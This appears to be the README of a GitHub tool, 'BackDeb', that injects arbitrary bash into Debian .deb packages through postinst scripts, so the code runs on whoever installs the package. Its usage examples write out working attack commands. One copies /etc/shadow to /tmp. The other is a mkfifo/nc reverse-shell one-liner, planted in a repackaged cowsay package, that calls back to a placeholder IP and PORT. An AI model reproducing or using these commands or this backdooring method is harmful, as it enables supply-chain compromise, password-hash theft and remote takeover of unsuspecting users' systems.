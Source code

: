 # BackDeb
Simple script to inject bash script inside any .deb package. It utilises postinst scripts as a medium to run user defined bash script. This script depends on dpkg-deb command line to achieve it's task, so make sure you have it on your system.

# Install
```
git clone https://github.com/diego-tella/BackDeb/
cd BackDeb/
chmod +x backdeb.sh
./backdeb.sh
```

# Usage
You can pass the .deb package as the first argument and the bash script to be executed as the second argument.
```
./backdeb.sh file.deb "cat /etc/shadow > /tmp/shadow"
```
The bash script needs to be in double quotes.<br><br>
Get a reverse shell:
```
./backdeb.sh cowsay_3.03+dfsg2-8_all.deb "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f"
```

<img src="screenshot.png">


# Requisites
<li>dpkg-deb</li>
